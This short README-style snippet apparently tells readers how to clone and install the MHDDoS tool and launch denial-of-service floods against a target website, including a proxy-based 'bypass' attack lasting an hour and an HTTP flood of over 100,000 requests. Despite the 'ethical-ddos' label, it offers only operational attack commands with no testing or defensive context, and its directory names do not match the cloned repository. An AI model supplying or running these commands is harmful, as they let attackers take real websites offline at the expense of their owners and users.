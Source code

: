 


**Clone and Install Script**

```shell script
git clone https://github.com/MatrixTM/MHDDoS.git
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass website 1 101 sockws5.txt 10970 3600 true
```
**Most Effecient to attack from MAC-OS**
```
--debug: for more info and details about the attack
```
```shell script
cd ethical-ddos
python3 asyncio_http.py --urls  website  --total_requests 103002 --debug
```

---

